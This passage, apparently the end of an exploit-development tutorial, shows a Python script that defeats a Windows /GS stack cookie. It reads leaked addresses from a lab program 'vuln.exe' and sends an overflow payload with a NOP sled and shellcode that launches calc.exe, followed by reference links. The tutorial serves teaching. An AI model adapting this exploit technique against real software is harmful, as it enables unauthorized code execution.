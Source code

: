 ```python
  buf += pack('<I', eax)  # eax = cookie
  buf += "\x42" * 4       # overwrite ebp w/ random 4-byte value
  buf += pack('<I', ret)  # overwrite eip w/ value from memleak
  buf += "\x90" * 100     # nopsled
  buf += gen_shellcode()  # shellcode
  # returns exploit payload
  return buf


def main():
  print_banner()  # print banner message at top

  exe  = "vuln.exe"  # name of program

  p = Popen(["C:\\blog\\" + exe], stdin=PIPE, stdout=PIPE, stderr=PIPE)
  time.sleep(2)  # allow a few seconds to start running

  cmd = ["tlist", "/p", exe]
  p_pid = check_output(cmd) # get PID from tasklist

  # Basic error checking
  if int(p_pid) > 0:
    # Returns greater than 0 for valid PID
    print "[*] Running %s in the background, pid=%s ...\n" % (exe, p_pid)
  else:
    # Returns less than 0 for invalid or non-existent PID
    print "[!] Unable to execute %s ...\n" % exe
    sys.exit(1)

  # Send input to memleak() through stdin pipe with newline appended
  loop = 40
  p.stdin.write(str(loop) + "\n")  

  # Read memleak() output from stdout pipe
  output  = p.stdout.readline().rstrip()

  # Save tuple of addresses from memleak helper function
  addr = get_memleak_values(output)

  # Craft exploit on the fly while vuln.exe waits for more input from STDIN in overflow()
  payload = create_payload(addr[0], addr[1])

  # Send exploit through stdin pipe
  p.stdin.write(payload + "\n")

  read = p.stdout.readline() # main() prints "read>" prompt

  done = p.stdout.readline() # main() prints "done" if overflow() returns normally

  if done:
    # read() is skipped when scanf() leaves an unsatisfied newline in the buffer
    print "[x] Rerun"  # Alert user that payload was never sent
  else:
    print "{0} (Sent {1} byte payload that executes CALC.exe)\n".format(read, len(payload))
    print "[+] Exploit of vuln.exe successful!!"

if __name__ == '__main__':
  main()
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #putting-it-all-together
[Click here]: https://docs.microsoft.com/en-us/cpp/build/building-on-the-command-line
[vulnerable]: #overview-of-windows-mitigations "Overview of Windows Mitigations"
[vulnerable program]: #the-vulnerable-code "Source Code"
[line 3]: #prologue-line-3 "Prologue Line 3"
[previous section]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[here]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[skip]: #putting-it-all-together "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
[2]: http://uninformed.org/index.cgi?v=7&a=2
[3]: https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/